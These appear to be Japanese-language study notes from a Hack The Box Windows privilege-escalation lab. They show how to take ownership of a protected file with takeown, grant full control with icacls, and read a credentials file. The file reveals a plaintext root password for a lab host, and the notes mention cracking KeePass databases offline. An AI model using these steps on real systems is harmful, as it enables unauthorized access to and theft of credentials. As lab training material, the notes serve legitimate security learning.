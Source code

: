 ファイル所有権の確認・取得
- 確認する
```powershell-session
PS C:\htb> cmd /c dir /q 'C:\Department Shares\Private\IT'
```
上のコマンドで確認できなかったら打つコマンド
```powershell-session
PS C:\Tools> takeown /f 'C:\TakeOwn\flag.txt'
SUCCESS: The file (or folder): "C:\TakeOwn\flag.txt" now owned by user "WINLPE-SRV01\htb-student".
```

所有権の変更の確認
```powershell-session
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```

ファイル ACL の変更
- ファイル ACL を変更して読み取れるようにする必要がある場合は、まだファイルを読み取ることができないことがある
```powershell-session
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.
At line:1 char:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Department Shares\Private\IT\cred.txt:String) [Get-Content], Unaut
   horizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```
その場合は、ターゲットファイルに対するフル権限をユーザーに付与する
```powershell-session
PS C:\htb> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```

ファイルの読み取り
- コマンドラインからターゲットファイルを読み取ったり、RDPを接続できる、追加の処理のために攻撃システムにコピーしたりできます (KeePass データベースのパスワードをクラッキングするなど)。
	-  この権限の活用は破壊的なアクションと見なすことができ、細心の注意を払って行う必要がある
```powershell-session
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

NIX01 admin
 
root:n1X_p0wer_us3er!
```
